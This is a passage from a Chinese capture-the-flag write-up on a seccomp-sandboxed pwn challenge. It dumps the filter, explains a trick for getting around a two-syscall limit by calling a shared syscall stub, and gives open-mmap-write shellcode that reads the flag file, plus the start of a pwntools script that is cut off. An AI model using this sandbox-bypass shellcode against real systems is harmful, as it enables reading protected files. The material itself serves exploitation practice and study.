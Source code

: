 ```sh
 0000: 0x20 0x00 0x00 0x00000000  A = sys_number
 0001: 0x35 0x0a 0x00 0x40000000  if (A >= 0x40000000) goto 0012
 0002: 0x15 0x00 0x0a 0xffffffff  if (A != 0xffffffff) goto 0013
 0003: 0x15 0x09 0x00 0x00000001  if (A == write) goto 0013
 0004: 0x15 0x08 0x00 0x00000002  if (A == open) goto 0013
 0005: 0x15 0x07 0x00 0x00000004  if (A == stat) goto 0013
 0006: 0x15 0x06 0x00 0x00000005  if (A == fstat) goto 0013
 0007: 0x15 0x05 0x00 0x00000006  if (A == lstat) goto 0013
 0008: 0x15 0x04 0x00 0x00000007  if (A == poll) goto 0013
 0009: 0x15 0x03 0x00 0x00000008  if (A == lseek) goto 0013
 0010: 0x15 0x02 0x00 0x00000009  if (A == mmap) goto 0013
 0011: 0x15 0x01 0x00 0x0000000a  if (A == mprotect) goto 0013
 0012: 0x06 0x00 0x00 0x00000000  return KILL
 0013: 0x06 0x00 0x00 0x7fff0000  return ALLOW

```

沙箱允许了open,mmap,write,说明这是一道orw的题目,其难点主要在于只能进行2次syscall.

先不急着管只能用两次syscall的事,我们先把正常情况下的汇编写好,然后将syscall包装成一个函数,并在原本需要syscall的地方改为调用这个函数,便能解决这个问题.

```assembly
	mov rax, 0x67616C662F
	push rax
	lea rdi, [rsp]
	mov rax, 2
	xor rsi, rsi
	call do_syscall
	mov r8, rax
	mov rax, 9
	xor rdi, rdi
	mov rsi, 100
	mov rdx, 1
	mov r10, 2
	xor r9, r9
	call do_syscall
	mov rsi, rax
	mov rax, 1
	mov rdi, 1
	mov rdx, 100
	call do_syscall
do_syscall:
	syscall
	ret
```

最后完成脚本.

```assembly
from pwn import *

r=process("./pwn")
gdb.attach(r)
pause()
pay1='''
	mov rax, 0x67616C662F
	push rax
	lea rdi, [rsp]
	mov rax, 2
	xor rsi, rsi
	call do_syscall
	mov r8, rax
	mov rax, 9
	xor rdi, rdi
	mov rsi, 100
	mov rdx, 1
```